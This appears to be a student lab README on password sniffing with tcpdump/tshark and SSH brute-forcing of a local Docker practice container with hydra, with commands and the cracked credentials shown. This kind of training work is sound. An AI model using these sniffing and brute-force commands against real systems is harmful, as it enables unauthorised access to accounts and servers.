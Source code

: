 # Attack is the best defense

```bash
88                                88        88
88                                88        ""
88                                88
88,dPPYba,  ,adPPYYba,  ,adPPYba, 88   ,d8  88 8b,dPPYba,   ,adPPYb,d8
88P'    "8a ""     `Y8 a8"     "" 88 ,a8"   88 88P'   `"8a a8"    `Y88
88       88 ,adPPPPP88 8b         8888[     88 88       88 8b       88
88       88 88,    ,88 "8a,   ,aa 88`"Yba,  88 88       88 "8a,   ,d88
88       88 `"8bbdP"Y8  `"Ybbd8"' 88   `Y8a 88 88       88  `"YbbdP"Y8
                                                            aa,    ,88
                                                             "Y8bbdP"
```

# General

* Network basics
* Docker

# Environment

<!-- ubuntu -->
[![Ubuntu](https://img.shields.io/static/v1?label=&message=Ubuntu&color=E95420&logo=Ubuntu&logoColor=E95420&labelColor=2F333A)](https://ubuntu.com/) <!-- bash -->
[![Bash](https://img.shields.io/static/v1?label=&message=GNU%20Bash&color=4EAA25&logo=GNU%20Bash&logoColor=4EAA25&labelColor=2F333A)](https://www.gnu.org/software/bash/) <!-- vim -->
[![Vim](https://img.shields.io/static/v1?label=&message=Vim&color=019733&logo=Vim&logoColor=019733&labelColor=2F333A)](https://www.vim.org/) <!-- vs code -->
[![VS Code](https://img.shields.io/static/v1?label=&message=Visual%20Studio%20Code&color=5C2D91&logo=Visual%20Studio%20Code&logoColor=5C2D91&labelColor=2F333A)](https://code.visualstudio.com/)

* OS: ``ubuntu``, ``kali``
* Shell: ``bash``
* IDE: ``vim``, ``VS Code``
* ``ssh``
* ``tcpdump``
* ``hydra``
* ``telnet``
* ``docker``

> [tcpdump.org](https://www.tcpdump.org/)

## Sniffing unencrypted traffic

> Sniffing over ``ubuntu`` 20.04 LTS booting on Linux 4.26. generic
>
> Kali Linux: Kali GNU/Linux Rolling 2021.4
>
> sniffing unencrypted traffic and getting information out of it.
>
> export for wireshark
>
> convert from base64

> Terminal 1

```bash
┌──(ralex㉿xelar)-[/media/…/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/ralexrivero/holberton-system_engineering-devops/attack_is_the_best_defense]
└─$ sudo tcpdump -s 0 -i eth0 -w capture.pcap
```

> Terminal 2

```bash
┌──(ralex㉿xelar)-[/media/…/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/ralexrivero/h┌──(ralex㉿xelar)-[/media/…/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/ralexrivero/holberton-system_engineering-devops/attack_is_the_best_defense]
└─$ ./user_authenticating_into_server
```

> After capturing the traffic

```bash
┌──(ralex㉿xelar)-[/media/…/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/ralexrivero/holberton-system_engineering-devops/attack_is_the_best_defense]
└─$ tshark -z follow,tcp,ascii,0 -P -r capture.pcap | grep -i pass
   43  22.802363 192.168.0.101 → 167.89.115.18 SMTP 88 C: Pass: bXlwYXNzd29yZDk4OTgh
   45  22.988826 167.89.115.18 → 192.168.0.101 SMTP 118 S: 535 Authentication failed: Bad username / password
```

> Decode the password from base 64

## Brute attack force

Pull docker image

``docker pull sylvainkalache/264-1```

Run the image

```bash
ralex@ralex-nb:~$ docker run -p 2222:22 -d -ti sylvainkalache/264-1
f6e64ceecab2c913fac1a15f2f2f66669dac8fd6b8f9a563ae30810f19852719
```

```bash
ralex@ralex-nb:~$ docker ps
CONTAINER ID   IMAGE                  COMMAND                  CREATED              STATUS              PORTS                                   NAMES
f6e64ceecab2   sylvainkalache/264-1   "/bin/sh -c 'service…"   About a minute ago   Up About a minute   0.0.0.0:2222->22/tcp, :::2222->22/tcp   quizzical_curran
ralex@ralex-nb:~$
```

brute force docker with hydra

``hydra -l sylvain -P passlist.txt ssh://127.0.0.1:2222``

```bash
ralex@ralex-nb:/media/ralex/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/hack$ hydra -l sylvain -P ignis-1M.txt ssh://127.0.0.1:2222
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-25 23:59:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1000000 login tries (l:1/p:1000000), ~62500 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 999824 to do in 93:37h, 16 active
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-26 00:01:20
```

## Author

<!-- twitter -->
[![Twitter](https://img.shields.io/twitter/follow/ralex_uy?style=social)](https://twitter.com/ralex_uy) <!-- linkedin --> [![Linkedin](https://img.shields.io/badge/LinkedIn-+26K-blue?style=social&logo=linkedin)](https://www.linkedin.com/in/ronald-rivero/) <!-- github --> [![Github](https://img.shields.io/github/followers/ralexrivero?style=social)](https://github.com/ralexrivero/) <!-- vagrant --> [![Vagrant](https://img.shields.io/static/v1?label=&message=Vagrant%20Profile&color=1868F2&logo=vagrant&labelColor=2F333A)](https://app.vagrantup.com/ralexrivero) <!-- docker --> [![Docker](https://img.shields.io/static/v1?label=&message=Docker%20Profile&color=2496ED&logo=Docker&labelColor=2F333A)](https://hub.docker.com/u/ralexrivero)